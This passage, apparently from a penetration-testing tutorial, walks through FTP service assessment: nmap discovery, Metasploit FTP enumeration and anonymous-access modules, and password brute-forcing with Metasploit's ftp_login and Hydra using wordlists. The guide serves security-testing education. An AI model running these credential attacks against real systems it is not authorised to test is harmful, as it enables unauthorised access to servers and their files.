 ### Issue 4: No Results from Anonymous Scanner
**Problem:** Anonymous module completes but shows no results
**Cause:** Anonymous FTP is disabled, which is expected behavior
**Solution:**
```bash
# This is normal - proceed to brute force
use auxiliary/scanner/ftp/ftp_login

# Configure for targeted attack
set USERNAME admin
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/passwords.txt
```

## 🔗 Integration with Other Tools

### Primary Integration: Nmap → Metasploit → FTP Client
```bash
# Step 1: Nmap discovers FTP services
nmap -sV -p21 target_network

# Step 2: Metasploit enumerates FTP details
msfconsole
use auxiliary/scanner/ftp/ftp_version
set RHOSTS discovered_ftp_hosts
run

# Step 3: FTP client for file access
ftp target_ip
# Use credentials found by Metasploit
```

### Secondary Integration: Metasploit → Hydra (Alternative)
```bash
# If Metasploit brute force is slow
use auxiliary/scanner/ftp/ftp_login  # Initial attempt
# If needed, switch to Hydra for faster brute force
hydra -L users.txt -P passwords.txt ftp://target_ip
```

### Advanced Workflows:
```bash
# Complete FTP assessment workflow
# 1. Service discovery
nmap -sV -p21 target_range

# 2. Detailed enumeration
msfconsole
use auxiliary/scanner/ftp/ftp_version
# ... configure and run

# 3. Access testing
use auxiliary/scanner/ftp/anonymous
# ... configure and run

# 4. Credential attacks
use auxiliary/scanner/ftp/ftp_login
# ... configure and run

# 5. Manual verification
ftp target_ip
```
